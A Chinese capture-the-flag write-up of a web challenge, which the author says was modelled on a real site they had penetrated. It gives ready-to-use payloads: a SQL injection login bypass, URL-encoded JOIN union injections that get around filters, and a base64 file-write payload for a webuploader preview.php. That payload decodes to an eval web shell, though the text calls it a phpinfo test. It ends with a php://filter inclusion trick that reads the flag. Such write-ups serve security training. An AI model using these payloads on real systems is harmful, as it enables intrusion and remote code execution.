










## 题目考点

题目考察选手渗透

## 题解
这题题目是取材自真实的渗透网站，当时在做渗透的时候，也是大概这样的一个过程，就给出题目了。

首先发现是一个登录界面

发现有www.zip

审计代码

代码中其实有webuploader和一些很可疑的地方，但是奇怪的是在网站中并没有这些目录，因此最开始是不能用rce之类的洞打的

源码Login.php里面有登录函数

在源码里看到common/Function里的登录函数：


登录函数调用了GetValue函数



在GetValue里面用了P函数做post输入



做了一定的过滤，但是没有过滤单引号

结合GetValue可以想到利用select查询是的结果和password的md5强制相等

注入的poc

user: 1' union select "c4ca4238a0b923820dcc509a6f75849b"  #

password:1

然后登录进去



这个地方注销账号可以访问logout.php，但是这个没有啥用

下一步，观察到sblist.php



在代码中有这样一段
```
<?php 
			$a = mysqli_query($GLOBALS['link'],"select * from mac where id>0$w order by id desc limit $s,$f");
			$a2 = mysqli_query($GLOBALS['link'],"select count(id) from mac where id>0$w order by id desc");
			$row2 = mysqli_fetch_array($a2);
			$ps=ceil($row2[0]/$f);
```

这里可以拼接语句进行注入，但是由于P和G函数都过滤了逗号，没有过滤引号，因此可以想着是join注入

```
http://192.168.43.233/meituan/www/sblist.php?u=1%27)%20or%200%20union%20select%20*%20from%20((select%201)a%20JoIN%20(select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema%20in%20(database()))b%20JoIN%20(select%203)c%20JoIN%20(select%204)d%20JoIN%20(select%205)e%20JoIN%20(select%205)f%20JoIN%20(select%205)g%20JoIN%20(select%205)h%20%20)--+
```
这个地方还有两个过滤需要注意，一个是=号的过滤，这个是源码里面就有的，因此只能想like,regexp,in这三种注入方式，同时我的后台黑盒里面过滤了like和regexp，因此只能用in，这个过滤不复杂，只要选手试过了就一定能出来

另一个过滤是我后台代码和源码里面有一些不一样在join过滤了小写，所以需要选手用大写绕过，当然这个也很简单，如果选手想到了join，但是发现绕不过去，我会其实说代码做了过滤，没有任何脑洞，依然是join加in的基本操作，只是换了个大小写。

```
I have done some filtering in the background. It is very simple. It can come out if you do it normally. You haven not seen the hard part yet
```

```
u=1%27)%20or%200%20union%20select%20*%20from%20((select%201)a%20JoIN%20(select%20*%20from%20hint)b%20JoIN%20(select%203)c%20JoIN%20(select%204)d%20JoIN%20(select%205)e%20JoIN%20(select%205)f%20JoIN%20(select%205)g%20JoIN%20(select%205)h%20%20)--+
```

之后就可以注入出来一个提示
see_the_dir_956c110ef9decdd920249f5fed9e4427

看到原来956c110ef9decdd920249f5fed9e4427网站目录下还有一个一模一样的网站，并且有缺失的lib目录，也能找到ueditor和webuploader，ueditor在php4以上是不可以做任意文件上传的，因此我们可以去找webuploader的目录。

当时渗透的时候也是这样，发现了主站下还有个1目录，找到了他留下的网站备份，里面有一个webuploader。

里面有server和preview.php




这里是一个任意文件写入
```
首先$src变量接受了任意post的数据，但是做了一个正则过滤，#^data:image/(+);base64,(.*)$#表达式意思是只能输入data:image/*;base64+任意字符串的形式，其实这里应该就是为了接受一个图片，也是属于网站逻辑的正常行为，因为图片一般用base64编码进行压缩传递会比较快速，但是这里就是因为php://input流任意post数据导致了漏洞的产生。
```

这里可以知道，$filename的值为md5我们的base64值加上可控的文件后缀php。$filePath则是DIRECTORY_SEPARATOR这个php内置变量（即路径分隔符/）加上我们的文件名$filename变量。也就是./$filename，$filepath可以理解为当前目录下。
之后，会判断是否存在这样的一个文件，如果不存在，则会执行file_put_contents函数将我们的$data写入$previewUrl.'preview/。也就是/Public/Plugins/webuploader/server/preview目录。
综上所述，这里的src是我们可控的，所以$type和$data都是由我们可控的，最终构成一个任意文件上传。
所以我们只要访问ip/Public/Plugins/webuploader/server/preview.php这个url，然后post如下数据：
```
data:image/php;base64, PD9waHAKcGhwaW5mbygpOwpAZXZhbCgkX1BPU1RbJ2NtZCddKTsKPz4=
```
就可以写入我们的测试文件了，PD9waHAgcGhwaW5mbygpOz8+这个是
```
<?php phpinfo(); ?>
```
的base64编码形。
 

打进去发现给了提示，因为这里共享环境不想让选手拿权限
```
!!!! Congratulations on infiltrating here, but it's a pity that someone has infiltrated and left a Trojan, do not continue here , please see the e98a4571cf72b798077d12d6c94629.php !!!!!                 
```

我们看当前目录下的e98a4571cf72b798077d12d6c94629.php

```
<?php
highlight_file(__FILE__);
$file=$_GET["file"];
$source="php://filter//convert.iconv.UCS-4LE.UCS-4BE/resource=".$file;
include($source);
```

这是四位一反转的文件包含，那么我们可以直接读取flag

flag{g879aee87y8501c1deab01c7b54f2fa9}.

只所以用4位一反转是因为希望如果有非预期直接读取/flag也看不懂

/flag文件如下：
galf78g{eea98y78c105aed1c10b45b7af2f .}9

只有通过最后的四位一反转才能读到